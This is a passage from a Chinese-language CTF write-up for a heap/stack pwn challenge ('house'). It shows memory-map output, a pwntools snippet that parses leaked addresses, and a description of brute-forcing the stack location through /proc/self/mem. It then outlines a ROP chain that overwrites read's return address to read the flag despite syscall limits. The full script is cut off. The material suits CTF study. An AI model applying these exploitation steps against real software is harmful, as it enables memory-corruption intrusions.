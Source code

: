 ```
7f343c45f000-7f343c460000 rw-p 00026000 08:01 399081                     /lib/x86_64-linux-gnu/ld-2.23.so
7f343c460000-7f343c461000 rw-p 00000000 00:00 0 
7ffcb6f7b000-7ffcb6f9c000 rw-p 00000000 00:00 0                          [stack]
7ffcb6ff2000-7ffcb6ff5000 r--p 00000000 00:00 0                          [vvar]
7ffcb6ff5000-7ffcb6ff7000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

接收地址

```
while 1:
	a = p.recvline()
	if 'heap' in a:
		a = p.recvline()
		stack_start = int(a.split('-')[0],16)
		stack_end = int((a.split('-')[1]).split(' ')[0],16)
		print '[+] stack_start:',hex(stack_start)
		print '[+] stack_end:',hex(stack_end)
		break
while 1:
	a = p.recvline()
	if 'libc' in a:
		libc.address = int(a.split('-')[0],16)
		print '[+] system:',hex(libc.symbols['system'])
		break
```

```
0x000056459a0a9000 0x000056459a0ab000 r-xp	/home/zoe/Desktop/gongfangshijie/jinjie/house/house
0x000056459a2ab000 0x000056459a2ac000 r--p	/home/zoe/Desktop/gongfangshijie/jinjie/house/house
0x000056459a2ac000 0x000056459a2ad000 rw-p	/home/zoe/Desktop/gongfangshijie/jinjie/house/house
0x000056459a798000 0x000056459a7d1000 rw-p	[heap]
0x00007fb549559000 0x00007fb559559000 rw-p	mapped
```

这里注意为什么stack在heap后面呢，首先可以通过调试知道，其次因为题目中是clone一个线程运行的读文件程序，然后会发现stack的地址不是从mmap出来的end地址开始的，而是有一个随机偏移之后才开始的。要得到准确的stack初始地址还需要爆破，思路来自于P4nda师傅：
存在另外一个文件/proc/self/mem，这个文件相当于程序内存的一个映射。在测试过程中发现，其栈起始地址与mmap内存块的结束地址相差了一个随机值，而这个随机值是有一定范围的：0xf000000~0xfffffff之间，是可以爆破的，而爆破的过程是，首先利用case 2的定位函数，预先设定一个读取内存地址的起始值，然后不断的向下读，由于程序栈中存在一个明显的字符串标识”/proc/self/mem”，当读到的数据中包含这个字符串时就可以判断找到了栈。

可以简单验证一下可行性，爆破的次数最多可以有24次（共可以进行30次操作，其他操作占有次数），24*100000 = 2400000 = 0x249f00 ， 而可能的范围是0x1000000 其概率为0.1430511474609375，是可以接受的。

攻击思路就是将任意地址写漏洞可以将case 4中的read参数劫持到read函数的返回地址处，也就是是read自身覆写自身的返回地址… 这样在read函数结束时也就返回到了通过写入的rop中。另外此题的坑点还有系统调用的限制，最终可以通过open(‘/home/ctf/flag’) read(6,buf,0x100) puts(buf)读出。

Linux /proc/pid目录下相应文件的信息说明和含义：
https://blog.csdn.net/enweitech/article/details/53391567
https://my.oschina.net/emptytimespace/blog/388207

详细脚本如下：
